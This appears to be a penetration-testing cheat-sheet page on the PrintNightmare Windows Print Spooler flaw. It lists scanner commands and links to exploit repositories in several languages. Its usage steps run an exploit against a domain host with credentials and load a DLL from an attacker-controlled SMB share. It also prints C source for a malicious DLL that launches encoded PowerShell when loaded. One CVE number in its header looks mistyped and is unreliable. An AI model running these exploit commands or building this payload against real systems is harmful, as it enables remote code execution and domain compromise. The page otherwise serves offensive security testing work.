 ```yaml
---
description: CVE-2021-16751, CVE-2021-34527
---
```


# PrintNightmare

* [https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)




## Check



### CrackMapExec

* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py)

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M spooler
```



### ItWasAllADream

* [https://github.com/byt3bl33d3r/ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream)

```
$ poetry run itwasalladream -d megacorp.local -u snovvcrash -p 'Passw0rd!' 192.168.1.0/24
```




## Exploits



### C/C++

RCE (fork of the original repo):

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)



### Python

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)


#### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb.md#smb-share-with-null-authentication) allowed (`smbserver.py` also works):
2. Generate an evil DLL: a С2 stager / add user to a privileged group ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp), [3](https://github.com/calebstewart/CVE-2021-1675/tree/main/nightmare-dll), etc.) / invoke a [custom](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) command (see example below).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

An example on configuring and abusing RBCD on a DC with PrintNightmare 👉🏻 [here](https://snovvcrash.rocks/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html).



### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)



### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)




## Reproducibility

Flowchart by [@wdormann](https://twitter.com/wdormann/status/1412906574998392840):

![](https://pbs.twimg.com/media/E5y7h36WYAMPzBo?format=jpg&name=large)




## Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
